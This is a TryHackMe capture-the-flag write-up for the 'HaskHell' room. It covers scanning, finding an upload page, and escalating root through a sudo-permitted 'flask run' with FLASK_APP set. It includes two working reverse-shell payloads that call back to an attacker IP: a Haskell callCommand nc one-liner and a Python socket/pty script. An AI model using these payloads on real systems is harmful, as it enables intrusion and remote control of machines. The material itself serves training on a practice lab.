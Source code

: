 ```yaml
---
title: "TryHackMe - HaskHell"
author: Nasrallah
description: ""
date: 2022-12-19 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, haskell, python, flask, sudo, hijacking]
img_path: /assets/img/tryhackme/haskhell
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [HaskHell](https://tryhackme.com/room/haskhell) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.217.150                                             
Host is up (0.15s latency).                                                    
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT     STATE SERVICE VERSION                                                 
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)         
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)                
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)              
5001/tcp open  http    Gunicorn 19.7.1                                                                                                                        
|_http-title: Homepage                                                         
|_http-server-header: gunicorn/19.7.1                                          
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

We found two open ports, 22 running OpenSSH and 5001 running Gunicorn http web server.

### Web

Let's navigate to the web page on port 5001.

![](1.png)

This is the home page for the Haskell programming course, and we see that it provides a link to a homework.

![](2.png)

Here we can see the homework assignment, the professor provided a link to submit the solution.

We can see that only Haskell files are accepted, and once uploaded, they will be compiled and ran.

When we go to the upload link we get a 404, the professor must have included the wrong directory.

### Gobuster

Let's run a directory scan to find the upload page.

```terminal
└──╼ $ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.217.150:5001/ | tee gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.217.150:5001/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/21 07:38:51 Starting gobuster in directory enumeration mode
===============================================================
/submit               (Status: 200) [Size: 237]
                                                
===============================================================
```

Great! We found the page.

![](3.png)

## **Foothold**

Now we can upload the following haskell code that would give us a reverse shell.

```terminal
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | sh -i 2>&1 | nc 10.18.0.188 9001 >/tmp/f"
```


> Found the code above in https://www.revshells.com/

After setting up a listener and uploading the file, we successfully receive a shell.

![](4.png)


## **Privilege Escalation**

Checking other users' home directories, we find an ssh private key of `prof` user.

![](5.png)

Let's copy that to our machine and connect with it via ssh.

![](6.png)

Now let's check our current privileges with `sudo -l`.

```bash
$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

We can run flask as root. Let's run it and see what happens.

```terminal
$ sudo /usr/bin/flask run
Usage: flask run [OPTIONS]
                                       
Error: Could not locate Flask application. You did not provide the FLASK_APP environment variable.
                                       
For more information see http://flask.pocoo.org/docs/latest/quickstart/
```

We got an error saying that we did not provide the FLASK_APP environment variable.

So i created a python script that would send us a reverse shell and set it as the environment variable, i set up a listener and run flask again.

```bash
$ cat shell.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.0.188",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

$ export FLASK_APP=shell.py

$ sudo /usr/bin/flask run
```

![](8.png)

Congrats, we've rooted the machine.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
